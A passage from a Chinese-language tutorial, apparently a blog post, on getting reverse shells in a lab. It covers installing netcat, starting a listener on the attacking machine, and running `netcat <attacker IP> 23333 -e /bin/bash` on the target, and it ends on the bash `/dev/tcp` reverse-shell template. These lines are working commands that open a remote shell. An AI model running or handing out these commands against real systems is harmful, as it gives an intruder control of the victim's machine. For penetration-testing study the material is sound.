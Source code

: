 对于这种情况，需要**手动下载安装包**，命令如下：
```
wget https://jaist.dl.sourceforge.net/project/netcat/netcat/0.7.1/netcat-0.7.1.tar.gz
tar -xvzf netcat-0.7.1.tar.gz
./configure
make && make install
make clean
```

### 攻击机开启监听：

> 格式：`nc -lvvp <攻击机监听的端口>`

`netcat -lvvp 23333`
![image-20230426012933906](https://res.cloudinary.com/sycamore/image/upload/v1682443777/Typera/2023/04/074dea0aeb65e3cf991579314a98284c.png)

### 目标机主动连接攻击机：
> 格式：`nc <攻击机IP> <攻击机监听的端口> -e /bin/bash`

`netcat 192.168.158.139 23333 -e /bin/bash`
![image-20230426012929850](https://res.cloudinary.com/sycamore/image/upload/v1682443773/Typera/2023/04/f52bbdd3389beb7c7a9e9da72e220e40.png)

（**必须**攻击机**先**开始 **监听**，目标机**再反弹 shell**，这样才会有效果）

成功反弹 shell：
![image-20230426012926374](https://res.cloudinary.com/sycamore/image/upload/v1682443770/Typera/2023/04/9284a9b2e6290d96a8b65313b24f91a3.png)

## 利用 Bash 反弹 shell
使用 Bash 中 **网络重定向** 的方法
### 准备：
Kali Linux 中使用的 **Shell** 是 **zsh**，
可以用命令：`echo %SHELL` 查看当前系统使用的 **Shell**：
![image-20230426012919215](https://res.cloudinary.com/sycamore/image/upload/v1682443763/Typera/2023/04/8d5285fdf9ee6db10ebba4ce645ad92c.png)

所以我们需要更换 Shell：
- 更换：`chsh -s /bin/bash`
- 重启：`reboot`
![image-20230426012915317](https://res.cloudinary.com/sycamore/image/upload/v1682443759/Typera/2023/04/a9c9ebe071eae7546dacb18ebc0bb277.png)

**[ 注意 ]：** 出现下图错误只是因为 **攻击机 没开监听**：
![image-20230426012907770](https://res.cloudinary.com/sycamore/image/upload/v1682443751/Typera/2023/04/8854676b35906672629c5fc26ad8a02f.png)


另外，Debian 中，部分版本可能默认**没开** bash 的 网络重定向 选项，

对于这种情况，我们只能：加上`--enable-net-redirections` **重新编译 bash**
详见我的另一篇文章：[【从源码重新编译 Bash：重定向功能】]()


### 命令：
（攻击机**事先**开启 本地监听）
> 格式：`bash -i >& /dev/tcp/攻击机IP/攻击机端口 0>&1`
